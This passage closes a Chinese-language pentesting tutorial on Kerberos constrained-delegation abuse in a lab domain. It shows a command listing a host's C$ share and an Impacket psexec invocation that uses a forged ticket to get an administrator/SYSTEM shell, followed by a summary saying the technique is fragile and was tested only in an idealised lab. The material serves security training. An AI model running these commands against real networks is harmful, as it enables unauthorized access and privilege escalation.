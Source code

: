 ### 利用票据连接

```
dir \\data.xiaodi.local\c$    ##默认连接，权限低。
python psexec.py -k xiaodi.local/administrator@data.xiaodi.local -no-pass   ##可提升为system权限。
```

![image-20230807194914658](assets/image-20230807194914658-172995732801413.png)

# 总结

其实总体来说，约束委派类，不是太经常遇到，同时在操作过程中，还有很多是需要交互的，或者一些特殊的操作，其中有一点不对则无法利用成功，不像其他漏洞，能不能利用基本上测试一下就能确定了，而这个有可能测试完也无法成功，上面案例中能够测试成功，均是在理想化环境中测试。

